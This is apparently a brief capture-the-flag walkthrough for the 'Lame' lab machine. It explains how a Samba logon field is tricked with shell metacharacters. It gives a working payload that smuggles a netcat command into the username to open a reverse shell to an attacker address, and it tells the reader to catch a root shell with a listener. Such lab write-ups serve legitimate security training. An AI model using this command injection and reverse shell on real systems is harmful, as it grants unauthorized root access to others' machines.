

Index
reverse shell
A quick google serach on metacharacters

we'll use a netcat backdoor from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

We'll combine a logon command along a nohup command surrounded by metacharacters in order to trick Lame's smb samba service to run a backdoor netcat script back to our attack machine

logon "/=`nohup nc -nv 10.10.14.62 4444 -e /bin/bash`"

run a netcat listener back on our machine on port 4444 before we run the logon command and we catch the shell as root!